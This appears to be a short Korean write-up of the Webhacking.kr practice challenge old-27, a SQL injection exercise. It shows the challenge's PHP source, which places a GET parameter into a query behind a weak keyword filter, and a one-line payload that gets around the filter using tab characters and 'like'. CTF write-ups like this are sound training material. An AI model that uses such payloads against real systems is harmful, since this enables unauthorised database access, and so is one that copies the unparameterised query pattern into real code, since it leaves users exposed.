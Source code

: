 ```yaml
---
title: ["[Webhacking.kr] old-27 (sqli - 15)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

  

```php
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
```

` `, `=`, `(`을 사용할 수 없으므로,  
```0)||no%09like%092--%09```